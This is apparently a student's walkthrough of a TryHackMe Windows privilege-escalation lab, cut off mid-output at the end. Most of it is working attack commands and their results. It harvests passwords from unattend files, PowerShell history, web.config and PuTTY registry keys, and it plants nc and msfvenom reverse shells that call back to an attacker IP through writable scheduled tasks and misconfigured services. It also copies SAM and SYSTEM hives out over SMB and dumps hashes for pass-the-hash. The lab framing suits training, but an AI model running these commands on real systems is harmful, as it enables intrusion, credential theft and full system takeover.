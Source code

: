 # TRYHACKME : Windows Privilege Escalation

> Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:
> - Misconfigurations on Windows services or scheduled tasks
> - Excessive privileges assigned to our account
> - Vulnerable software
> - Missing Windows security patches

## Windows User
| User Type | Privileges |
|---|---|
| Administrator | -> have the most privileges -> can change any system configuration parameter & access any file in the system |
| Standard Users | -> can access the computer but only perform limited tasks -> these users can not make permanent or essential changes to the system and are limited to their files |

| Special Built-in Accounts | |
|---|---|
| SYSTEM / LocalSystem | -> account used by the operating system to perform internal tasks -> has full access to all files and resources available on the host -> has higher privileges than administrators |
| Local Service | -> default account -> minimum privileges -> uses anonymous connections over the network |
| Network Service | -> default account -> minimum privileges -> use the computer credentials to authenticate through the network |

<details markdown=1>
<summary><h2> 1. Harvesting Passwords from Usual Spots </h2></summary>
  
> This task will present some known places to look for passwords on a Windows system.
>
> Start the target machine. If using 
>
>> Username: `thm-unpriv` Password: `Password321`
>
> # A. Unattended Windows Installations
> When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network.
> 
>> These kinds of installations are referred to as unattended installations as they don't require user interaction.
>
> Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
>```
>    C:\Unattend.xml
>    C:\Windows\Panther\Unattend.xml
>    C:\Windows\Panther\Unattend\Unattend.xml
>    C:\Windows\system32\sysprep.inf
>    C:\Windows\system32\sysprep\sysprep.xml
> ```
>
> In these type of files, you might encounter credentials such as:
> ```
>  <Credentials>
>     <Username>Administrator</Username>
>     <Domain>thm.local</Domain>
>     <Password>MyPassword123</Password>
>  </Credentials>
> ```
> ## TARGET MACHINE:
>> ```
>> more C:\Unattend.xml => (cannot access file / file not found)
>> more C:\Windows\Panther\Unattend.xml => (cannot access file / file not found)
>> dir C:\Windows\Panther\Unattend => (empty folder)
>> more C:\Windows\system32\sysprep.inf => (cannot access file / file not found)
>> dir C:\Windows\system32\sysprep
>>       <DIR> ActionFiles
>>       <DIR> en-us
>>       <DIR> Panther
>>       sysprep.exe
>> more C:\Windows\system32\sysprep\sysprep.xml => (cannot access file / file not found)
>> ```
>> 
> 
> # B. Powershell History
> All commands run using Powershell gets stored into a file that keeps a memory of past commands.
>
>> It can later be retrieved by using the following command from a `cmd.exe` prompt (it won't work in Powershell; in order to read the file from Powershell, replace `%userprofile%` into `$Env:userprofile`)
>
> ```
> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
>> ls
>> whoami
>> whoami /priv
>> whoami /group
>> whoami /groups
>> cmdkey /?
>> cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z        // WAHH CREDENTIALS!!!
>> cmdkey /list
>> cmdkey /delete:thmdc.local
>> cmdkey /list
>> runas /?
>> ```
>
> # C. Saved Windows Credentials
> Windows allows us to use other users' credentials.
>
> The command below will list saved credentials:
> ```
> cmdkey /list
> ```
>
> Regardless of not seeing actual passwords, credentials alone are worth trying. Use them with the `runas` command and the `/savecrad` option:
> ```
> runas /savecred /user:admin cmd.exe
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>cmdkey /list
>>
>> Currently stored credentials:
>>
>>     Target: Domain:interactive=WPRIVESC1\mike.katz
>>     Type: Domain Password
>>     User: WPRIVESC1\mike.katz
>> 
>> C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
>> Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
>>
>> (opens another cmd terminal)
>>
>> C:\Windows\system32>whoami
>> wprivesc1\mike.katz
>> C:\Windows\system32>more C:\Users\mike.katz\Desktop\flag.txt
>> // FLAG ANSWER
>> ```
>
> # D. IIS Configuration
> Internet Information Services (IIS) is the default web server on Windows installations.
>
>> IIS websites' configuration is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
>
> Depending on the installed version, `web.config` can be found on ff locations:
>``` 
>    C:\inetpub\wwwroot\web.config
>    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
>```
> 
> To quickly find database connection strings on the file:
> ```
> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
> ```
> ## TARGET MACHINE
>> ```
>> C:\Users\thm-unpriv> more C:\inetpub\wwwroot\web.config => (cannot access file / file not found)
>> C:\Users\thm-unpriv> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>>                 <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false"
>> bufferMode="Notification" name="SqlWebEventProvider"
>> type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
>>                     <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider"
>> type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral,
>> PublicKeyToken=b03f5f7f11d50a3a" />
>>     <connectionStrings>
>>         <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />  // WAHH CREDENTIALS !!!
>> </connectionStrings>
>> ```
>
> # E. Retrieve Credentials from Software: PuTTY
> **PuTTY** is an SSH client commonly found on Windows systems. It is created by Simon Tatham (his name is part of the path, not the username to retrieve password).
>
> Users can store sessions (IP, user, and other configurations) instead of having to specify a connection's parameters every single time. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
>
> To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword w/ the ff command:
> ```
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
> ```
> Stored proxy username should also be visible after running the command above.
>
> # TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
>> HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
>> 
>>     ProxyExcludeList    REG_SZ
>>     ProxyDNS    REG_DWORD    0x1
>>     ProxyLocalhost    REG_DWORD    0x0
>>     ProxyMethod    REG_DWORD    0x0
>>     ProxyHost    REG_SZ    proxy
>>     ProxyPort    REG_DWORD    0x50
>>     ProxyUsername    REG_SZ    thom.smith
>>     ProxyPassword    REG_SZ    CoolPass2021    // WAHH CREDENTIALS !!!
>>     ProxyTelnetCommand    REG_SZ    connect %host %port\n
>>     ProxyLogToTerm    REG_DWORD    0x1
>>
>> End of search: 10 match(es) found.
>> ```
>>
</details>

<details>
<summary><h2> 2. Other Quick Wins </h2></summary>
  
> Privilege escalation is not always a challenge.
>
> Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access.
>
> # A. Scheduled Tasks
> Some scheduled task might either lost its binary or it's using a binary you can modify.
>
> Scheduled tasks can be listed from the command line using the `schtasks` command without any options.
>
> To retrieve more detailed information about any of the services you can type
> ```
> C:\> schtasks /query /tn vulntask /fo list /v
> Folder: \
> HostName:                             THM-PC1
> TaskName:                             \vulntask
> Task To Run:                          C:\tasks\schtask.bat
> Run As User:                          taskusr1
> ```
> ### Two Important Parameters:
>> - **Task to Run** = indicates what gets executed by the scheduled task
>> - **Run As User** = shows the user that will be used to execute the task
>
> If modifiable, we can control what gets executed by the taskuser1, resulting in a simple privilege escalation.
> 
> Use `icacls` to check permissions on the executable:
> ```
> C:\> icacls c:\tasks\schtask.bat
> c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
>                     BUILTIN\Administrators:(I)(F)
>                     BUILTIN\Users:(I)(F)
> ```
> The **BUILTIN/Users** group has full access (F) over the task's binary. That means we can modify the .bat file and insert any payloads we like.
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe <ATTACKER-IP> 4444 > C:\tasks\schtask.bat
>>
>> C:\Users\thm-unpriv>schtasks /run /tn vulntask
>> SUCCESS: Attempted to run the scheduled task "vulntask".
>> ```
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> Listening on 0.0.0.0 4444
>> Connection received on 10.10.89.191 49907
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\taskusr1
>>
>> C:\Windows\system32>more C:\Users\taskuser1\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```
>
> # B. AlwaysInstallElevated
> Windows installer files (.msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
>
> However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
>
>> **NOTE:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
> 
> This method required two registry values to be set. Otherwise, exploitation will not be possible. You can query these from the command line using the commands below:
>> ```
>> C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
>> C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
>> ```
>
> After setting the two, you can generate a malicious .msi file using `msfvenom`, as seen below:
> ```
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
> ```
> As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
> ```
> C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
> ```
  
</details>

<details> 
<summary><h2> 3. Abusing Service Misconfigurations </h2></summary>

> # A. Windows Services
> Window servies are managed by the **Service Control Manager (SCM)**. Its in charge of managing the state of service as needed, checking the current status of any given service and generally providing a way to configure services.
> 
>> Each service will have associated executable which will be run by SCM whenever a service is started.
>
> Service executables implement _special functions_ to be able to communicate with the SCM. Therefore, not any executable can be started as a service succesfully.
>
>> Each service also specifies the **user account** under which the service will run.
>
> To check the structure of a service, let's check as an example the `apphostsvc` service configuration with the `sc qc` command:
> 
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc apphostsvc
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: apphostsvc
>>         TYPE               : 20  WIN32_SHARE_PROCESS\
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 1   NORMAL
>>         BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
>>         LOAD_ORDER_GROUP   :        TAG                : 0
>>         DISPLAY_NAME       : Application Host Helper Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : localSystem
>> ```
> Here we can see the _associated executable_ is specified throught the **BINARY_PATH_NAME** parameter, and the _account used_ to urn the service is shown on the **SERVICE_START_NAME** parameter.
>
>> Services have a **Discretionary Access Control List (DACL)**, which indicates _who has permission_ to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.
>
> DACL can be seen from **Process Hacker** on THM's target machine's desktop. Then click on Services Tab > AppHOstSvc > Security Tab. You'll see the group or user names and their permissions.
>
> While all the services configuration are stored on the **Registry Editor** under `HKLM\SYSTEM\CurrentControlSet\Services\AppHostSvc`
>
>> A **subkey** exist for every service in the system. We can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**.
>
> # B. Insecure Permissions on Service Executable
>
> If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.
>
> To understand how this works, let's look at a vulnerability found on **Splinterware System Scheduler**. To start, we will query the service configuration using sc:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc WindowsScheduler
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: WindowsScheduler
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 0   IGNORE
>>         BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
>>         LOAD_ORDER_GROUP   :
>>         TAG                : 0
>>         DISPLAY_NAME       : System Scheduler Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : .\svcusr1
>> ```
 
> We can see that the service installed by the vulnerable software runs as **svcuser1** and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
>> C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
>>                                   NT AUTHORITY\SYSTEM:(I)(F)
>>                                   BUILTIN\Administrators:(I)(F)
>>                                   BUILTIN\Users:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
>>
>> Successfully processed 1 files; Failed processing 0 files
>> ```
> And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. **This means we can simply overwrite it with any payload of our preference**, and the service will execute it with the privileges of the configured user account.
>
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
>>
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> We can then pull the payload from Powershell with the following command:
> ### TARGET MACHINE:
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
>> ```
>
> Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
>
> ### TARGET MACHINE:
>> ```
>> C:\> cd C:\PROGRA~2\SYSTEM~1\
>>
>> C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
>>         1 file(s) moved.
>>
>> C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> ```
>
> We start a reverse listener on our attack machine:
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445 // OR socat TCP-L:4445 
>> ```
>
> And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
>
> ### TARGET MACHINE:
>> ```
>> C:\> sc stop windowsscheduler
>> C:\> sc start windowsscheduler
>> ```
> > Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.
>
> As a result, you'll get a reverse shell with svcusr1 privileges
> 
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4445
>> Listening on 0.0.0.0 4445
>> Connection received on 10.10.175.90 50649
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr1
>> 
>> C:\Windows\system32> more C:\Users\svcusr1\Desktop\flag.txt
>> // RETRIVE FLAG
>> ```
>
> # C. Unquoted Service Paths
> When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.
>
> When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
>
> This simply shows a syntax error in the **BINARY_PATH_NAME**. When a path is not surrounded by double quotation marks, it is not properly configured as there are spaces on the name of the path of the specific service folder. The command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute.
>
> The command prompt will mistakenly interpret the first line as an executable file and the rest, after the space, is taken as arguments.
>
> **Compare:**
> ```
> BINARY_PATH_NAME   : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
> ```
> ```
> BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
> ```
>
> From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.
>
> While this sounds trivial, most of the service executables will be installed under C:\Program Files or C:\Program Files (x86) by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.
>
> In our case, the Administrator installed the Disk Sorter binaries under c:\MyPrograms. By default, this inherits the permissions of the C:\ directory, which allows any user to create files and folders in it. We can check this using icacls:
>
> # TARGET MACHINE:
>> ```
>> C:\>icacls c:\MyPrograms
>> c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
>>               BUILTIN\Administrators:(I)(OI)(CI)(F)
>>               BUILTIN\Users:(I)(OI)(CI)(RX)
>>               BUILTIN\Users:(I)(CI)(AD)
>>               BUILTIN\Users:(I)(CI)(WD)
>>               CREATOR OWNER:(I)(OI)(CI)(IO)(F)
>>
>> Successfully processed 1 files; Failed processing 0 file
>> ```
>
> The BUILTIN\\Users group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
>> 
>> user@attackerpc$ python3 -m http.server 8000
>> Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> nc -lvnp 4446 // OR socat TCP-L:4446 -
>> ```
>
>  Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to **C:\MyPrograms\Disk.exe**. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:
>
> # TARGET MACHINE:
>> ```
>> C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
>>
>> C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
>>         Successfully processed 1 files.
>> 
>> C:\> sc stop "disk sorter enterprise"
>>
>> C:\> sc start "disk sorter enterprise"
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ nc -lvp 4446
>> Listening on 0.0.0.0 4446
>> connection received on 10.10.175.90 50650
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\svcusr2
>>
>> C:\Windows\system32>more C:\Users\svcusr2\Desktop\flag.txt
>> more C:\Users\svcusr2\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

> # D. Insecure Service Permissions
> You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted.
>
> Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
>
> To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite. For your convenience, a copy is available at C:\\tools. The command to check for the thmservice service DACL is:
>
> # TARGET MACHINE:
>> ```
>> C:\>cd C:\tools\AccessChk && accesschk64.exe -qlc thmservice
>> 
>> Accesschk v6.14 - Reports effective permissions for securable objects
>> Copyright ⌐ 2006-2021 Mark Russinovich
>> Sysinternals - www.sysinternals.com
>>
>> thmservice
>>   DESCRIPTOR FLAGS:
>>       [SE_DACL_PRESENT]
>>       [SE_SACL_PRESENT]
>>       [SE_SELF_RELATIVE]
>>   OWNER: NT AUTHORITY\SYSTEM
>>   [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
>>         SERVICE_QUERY_STATUS
>>         SERVICE_QUERY_CONFIG
>>         SERVICE_INTERROGATE
>>         SERVICE_ENUMERATE_DEPENDENTS
>>         SERVICE_PAUSE_CONTINUE
>>         SERVICE_START
>>         SERVICE_STOP
>>         SERVICE_USER_DEFINED_CONTROL
>>         READ_CONTROL
>>   [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators  // TAKE NOTE
>>         SERVICE_ALL_ACCESS
>> ```
> Here we can see that the **BUILTIN\\Users** group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
>
> Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:
>
> # ATTACKER MACHINE:
>> ```
>> user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
>>
>> user@attackerpc$ python3 -m http.server 9000
>> Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
>> ```
> 
> # TARGET MACHINE (POWERSHELL):
>> ```
>> wget http://10.4.124.80:9000/rev-svc3.exe -O rev-svc3.exe
>> ```
>
> # TARGET MACHINE (POWERSHELL):
>> ```
>> C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
>>
>> C:\>sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
>> [SC] ChangeServiceConfig SUCCESS
>>
>> C:\>sc stop THMService
>> [SC] ControlService FAILED 1062:
>>
>> The service has not been started.
>>
>> C:\>sc start THMService
>>
>> SERVICE_NAME: THMService
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         STATE              : 4  RUNNING
>>                                 (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
>>         WIN32_EXIT_CODE    : 0  (0x0)
>>         SERVICE_EXIT_CODE  : 0  (0x0)
>>         CHECKPOINT         : 0x0
>>         WAIT_HINT          : 0x0
>>         PID                : 2884
>>         FLAGS              :
>> ```
>
> # ATTACKER MACHINE:
>> ```
>> $ socat TCP-L:4447 -
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> NT AUTHORITY\SYSTEM
>>
>> C:\Windows\system32>more C:\Users\Administrator\Desktop\flag.txt
>> more C:\Users\Administrator\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```

</details>

<details>
<summary><h2> 4. Abusing Dangerous Privileges </h2></summary>

> # A. Windows Privileges
> Each user has a set of privileges that can be checked with the following command:
>> ```
>> whoami /priv
>> ```
>
> A complete list of available privileges on Windows systems is available [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.
>
> While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.
>
> # B. SeBackup / SeRestore
> The **SeBackup** and **SeRestore** privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to _perform backups from a system without requiring full administrative privileges_.
>
> Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives **to extract the local Administrator's password hash**.
>
> Log in to the target machine via RDP using the following credentials:
> 
> User: `THMBackup` Password: `CopyMaster555`
>
>> Open command prompt as administrator. Check the account privileges with the ff command:
>
> ### TARGET MACHINE:
>> ```
>> C:\> whoami /priv
>>
>> PRIVILEGES INFORMATION
>> ----------------------
>>
>> Privilege Name                Description                    State
>> ============================= ============================== ========
>> SeBackupPrivilege             Back up files and directories  Disabled
>> SeRestorePrivilege            Restore files and directories  Disabled
>> SeShutdownPrivilege           Shut down the system           Disabled
>> SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
>> SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
>> ```
>
>> To backup the SAM and SYSTEM hashes, we can use the ff. command:
>
> ### TARGET MACHINE:
>> ```
>> C:\> reg save hklm\system C:\Users\THMBackup\system.hive
>> The operation completed successfully.
>>
>> C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
>> The operation completed successfully.
>> ```
>
> This creates duplicate files with the registry hives content.
>
> We can now copy these files to our attacker machine using SMB or any other available method.
>
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ mkdir share
>> user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share 
>>
>> Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
>> [*] Config file parsed
>> [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
>> [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
>> [*] Config file parsed
>> ```
>>> IF PYTHON 3.9 DOESNT WORK TO YOU OR if folders from the example can't be found, look for the file dir path:
>>> ```
>>> find / -type f -name "smbserver.py" 2>/dev/null
>>> ```
> This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, use impacket to retrieve the users' password hashes:
> 
> ### TARGET MACHINE:
>> ```
>> C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
>> C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
>
> ### ATTACKER MACHINE:
>> ```
>> Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
>>
>> [*] Config file parsed
>> [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
>> [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
>> [*] Config file parsed
>> [*] Config file parsed
>> [*] Incoming connection (10.10.8.143,49881)
>> [*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
>> [*] User WPRIVESC2\THMBackup authenticated successfully
>> [*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:2e1d19e8982a827d9c10a33cf2c4df23:010100000000000080af2eeef193db010627d4ce767c439500000000010010006300780052005200690072004500610003001000630078005200520069007200450061000200100067004700560076005500620055006a000400100067004700560076005500620055006a000700080080af2eeef193db010600040002000000080030003000000000000000000000000030000046636b1266546c840d57fc859740047f5562371c3529f221463ce045cc00aa270a001000000000000000000000000000000000000900200063006900660073002f00310030002e0034002e003100320034002e00380030000000000000000000
>> [*] Connecting Share(1:IPC$)
>> [*] Connecting Share(2:public)
>> [*] Disconnecting Share(1:IPC$)
>> [*] Disconnecting Share(2:public)
>> [*] Closing down connection (10.10.8.143,49881)
>> [*] Remaining connections []
>> [*] Incoming connection (10.10.8.143,49887)
>> [*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
>> [*] User WPRIVESC2\THMBackup authenticated successfully
>> [*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:ddda436b4b94a94b91d2649b99f5ae95:0101000000000000004bba32f293db01030e61cff7f1225b00000000010010006300780052005200690072004500610003001000630078005200520069007200450061000200100067004700560076005500620055006a000400100067004700560076005500620055006a0007000800004bba32f293db010600040002000000080030003000000000000000000000000030000046636b1266546c840d57fc859740047f5562371c3529f221463ce045cc00aa270a001000000000000000000000000000000000000900200063006900660073002f00310030002e0034002e003100320034002e00380030000000000000000000
>> [*] Connecting Share(1:public)
>> ```
> We can finally use the Administrator's hash to perform a **Pass-the-Hash attack** and gain access to the target machine with SYSTEM privileges:
> 
> ### ATTACKER MACHINE:
>> ```
>> user@attackerpc$ cd share  // if not in the share dir yet
>> user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
>> Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
>>
>> [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
>> [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
>> Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
>> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
>>
>> user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.8.143
>> Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
>>
>> [*] Requesting shares on 10.10.175.90.....
>> [*] Found writable share ADMIN$
>> [*] Uploading file nfhtabqO.exe
>> [*] Opening SVCManager on 10.10.175.90.....
>> [*] Creating service RoLE on 10.10.175.90.....
>> [*] Starting service RoLE.....
